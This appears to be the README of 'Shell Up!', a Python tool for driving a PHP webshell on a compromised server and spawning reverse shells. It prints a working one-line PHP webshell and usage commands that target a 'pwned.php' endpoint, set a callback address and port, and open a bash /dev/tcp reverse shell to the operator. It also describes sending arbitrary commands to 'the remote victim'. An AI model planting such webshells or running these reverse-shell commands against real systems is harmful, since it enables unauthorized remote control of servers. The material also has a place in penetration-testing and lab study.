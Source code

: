 # Shell Up!
A much more lightweight way to connect to a webshell without having to use Burp Suite.
I wrote this not out of necessity, but because I was always considering doing it one day
and given the current COVID-19 climate I finally said screw it and wrote this. In the event
that I obtain code execution on a server and am able to write a quick oneliner webshell that
looks something like this:

`<?php system($_GET['cmd']); ?>`

You can run this script and issue commands as needed. Typically all that is necessary is a
callback via a reverse shell, so this script takes care of all of the overhead necessary.

To use, point this script at the affected code:

`shellup.py http://example.com/pwned.php`

This will connect to the endpoint and run an immediate check to determine code execution,
assuming your invoke word is "cmd". If it isn't, you can modify those settings in the REPL:

`shellset invokeword c`

Don't forget to set your LHOST and LPORT properties for reverse shells:

`shellset lhost 10.10.14.2`

`shellset lport 9001`

Something not working right? Run it through a proxy like burpsuite or mitmproxy andfind out
what's going on:

`shellset proxy http://localhost:8080`

`whoami`

Or, you could just set these flags up beforehand at the command line:

`shellup.py http://example.com/pwned.php -lh 10.10.14.2 -lp 9001 -i agr0 -p http://localhost:8080`

Once you have your settings configured properly, the "shellup" function allows you to start up a
reverse shell in many different ways. All you need to do is type something like:

`shellup bash`

And it will connect back to you using the /dev/tcp/ method that comes with the bash shell.
Several reverse callback methods have been preloaded into this script, but when all else fails
you can simply issue arbitrary commands via the included REPL. Just type anything and it sends
it to the remote victim, all properly URL encoded!

Hack The Planet!